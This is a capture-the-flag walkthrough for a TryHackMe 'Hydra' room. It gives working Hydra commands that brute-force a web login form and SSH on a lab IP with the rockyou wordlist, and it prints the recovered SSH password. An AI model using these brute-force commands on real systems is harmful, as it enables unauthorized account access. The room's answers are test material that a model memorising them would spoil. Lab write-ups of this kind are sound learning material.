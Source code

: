 # Hydra
+ Link: https://tryhackme.com/r/room/hydra
+ Type: Walkthrough
  
+ Target IP Address: 10.10.50.153

## Tools
+ Hydra

## External Resources
+ https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/

## Task 1
1. Went to http://10.10.50.153 and looked at the source code. Found it uses the POST method.
2. `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.50.153 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect." -V` to find the web form password.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room03/Screenshots/1.png)
  
3. Logged into the website using the given username and the hydra-ed password to find the flag.
4. `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.50.153 -t 4 ssh` to find the SSH password.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room03/Screenshots/2.png)
  
5. `ssh molly@10.10.50.153` with password butterfly.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room03/Screenshots/3.png)
  
6. `ls` and `cat <file name>` to display the flag.

## Learned
+ Generally, don't use `-V` in Hydra, because it makes the output less readable.